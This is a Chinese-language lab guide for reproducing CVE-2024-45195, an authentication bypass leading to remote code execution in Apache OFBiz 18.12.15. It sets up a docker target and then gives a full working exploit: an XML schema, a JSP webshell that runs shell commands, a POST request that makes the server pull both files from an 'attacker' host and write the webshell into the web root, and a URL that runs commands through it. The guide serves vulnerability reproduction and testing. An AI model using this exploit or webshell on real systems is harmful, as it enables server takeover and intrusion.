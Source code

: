 # Apache OFBiz 身份验证绕过导致远程代码执行（CVE-2024-45195）

Apache OFBiz是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

该漏洞是由于之前漏洞（CVE-2024-32113、CVE-2024-36104和CVE-2024-38856）未完全修复所导致。在Apache OFBiz版本18.12.16之前，开发人员对这些先前的问题进行了修复，但控制器视图地图状态不同步的根本问题仍然存在。这使得攻击者能够绕过身份验证并访问敏感的仅限管理员的视图地图。

参考链接：

- <https://github.com/apache/ofbiz-framework/commit/ab78769c2d>
- <https://github.com/apache/ofbiz-plugins/commit/8b95fe6fa>
- <https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/>

## 漏洞环境

执行以下命令启动一个 Apache OfBiz 18.12.15服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

在复现此漏洞之前，我们需要在自己控制的服务器上部署恶意XML文件和CSV文件。

第一个文件是`rceschema.xml`，此XML schema文件定义了恶意 JSP 的结构：

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
        <record name="rceentry" limit="many">
            <field name="jsp" type="String" length="605" position="0"></field>
        </record>
    </data-file>
</data-files>
```

第二个文件是`rcereport.csv`，此CSV文件包含实际的JSP代码：

```jsp
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><h1>Ahoy!</h1><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

然后发送以下请求：

```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: target:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 241
Content-Type: application/x-www-form-urlencoded

DATAFILE_LOCATION=http://attacker/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://attacker/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```

![](1.png)

该请求通过利用viewdatafile视图地图将恶意JSP文件写入Web根目录，从而利用了该漏洞实现远程代码执行。

在JSP webshell被写入后，通过`https://localhost:8443/accounting/index.jsp?cmd=id`即可执行任意命令：

![](2.png)
